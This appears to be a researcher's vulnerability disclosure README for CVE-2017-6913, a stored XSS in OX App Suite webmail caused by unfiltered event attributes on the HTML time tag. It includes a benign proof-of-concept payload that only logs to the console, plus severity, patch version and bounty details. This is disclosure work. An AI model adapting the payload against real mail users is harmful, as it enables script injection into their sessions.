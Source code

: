 CVE-2017-6913
=============

This is a vulnerability I found in open-xchange OX App Suite's webmail (https://www.open-xchange.com/) a while back.


Vulnerability details
---------------------

The webmail was vulnerable to a stored XSS when opening an email, due to the event attributes of the HTML time tag not being properly filtered. Consequently, embedded HTML code such as the one that follows could run JavaScript on an unsuspecting target:

```html
<time onafterprint="console.log('onafterprint')" onbeforeprint="console.log('onbeforeprint')" onbeforeunload="console.log('onbeforeunload')" onerror="console.log('onerror')" onhashchange="console.log('onhashchange')" onload="console.log('onload')" onmessage="console.log('onmessage')" onoffline="console.log('onoffline')" ononline="console.log('ononline')" onpagehide="console.log('onpagehide')" onpageshow="console.log('onpageshow')" onpopstate="console.log('onpopstate')" onresize="console.log('onresize')" onstorage="console.log('onstorage')" onunload="console.log('onunload')" onblur="console.log('onblur')" onchange="console.log('onchange')" oncontextmenu="console.log('oncontextmenu')" onfocus="console.log('onfocus')" oninput="console.log('oninput')" oninvalid="console.log('oninvalid')" onreset="console.log('onreset')" onsearch="console.log('onsearch')" onselect="console.log('onselect')" onsubmit="console.log('onsubmit')" onkeydown="console.log('onkeydown')" onkeypress="console.log('onkeypress')" onkeyup="console.log('onkeyup')" onclick="console.log('onclick')" ondblclick="console.log('ondblclick')" ondrag="console.log('ondrag')" ondragend="console.log('ondragend')" ondragenter="console.log('ondragenter')" ondragleave="console.log('ondragleave')" ondragover="console.log('ondragover')" ondragstart="console.log('ondragstart')" ondrop="console.log('ondrop')" onmousedown="console.log('onmousedown')" onmousemove="console.log('onmousemove')" onmouseout="console.log('onmouseout')" onmouseover="console.log('onmouseover')" onmouseup="console.log('onmouseup')" onmousewheel="console.log('onmousewheel')" onscroll="console.log('onscroll')" onwheel="console.log('onwheel')" oncopy="console.log('oncopy')" oncut="console.log('oncut')" onpaste="console.log('onpaste')" onabort="console.log('onabort')" oncanplay="console.log('oncanplay')" oncanplaythrough="console.log('oncanplaythrough')" oncuechange="console.log('oncuechange')" ondurationchange="console.log('ondurationchange')" onemptied="console.log('onemptied')" onended="console.log('onended')" onloadeddata="console.log('onloadeddata')" onloadedmetadata="console.log('onloadedmetadata')" onloadstart="console.log('onloadstart')" onpause="console.log('onpause')" onplay="console.log('onplay')" onplaying="console.log('onplaying')" onprogress="console.log('onprogress')" onratechange="console.log('onratechange')" onseeked="console.log('onseeked')" onseeking="console.log('onseeking')" onstalled="console.log('onstalled')" onsuspend="console.log('onsuspend')" ontimeupdate="console.log('ontimeupdate')" onvolumechange="console.log('onvolumechange')" onwaiting="console.log('onwaiting')" onshow="console.log('onshow')" ontoggle="console.log('ontoggle')">
Lorem ipsum dolor sit amet ...
</time>
```

An example of the XSS triggering:

![XSS](/console.png "XSS")



Severity
--------

This vulnerability was attributed a CVSS score of 5.3 by the vendor.

CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:U/C:L/I:N/A:N


Versions
--------

The vulnerability has been patched from [version 7.6.3-rev28 onwards](https://software.open-xchange.com/products/appsuite/doc/Release_Notes_for_Patch_Release_4133_7.6.3_2017-05-15.pdf).


Bounty
------

The vendor awarded me with a $500 bounty! Many thanks to them.
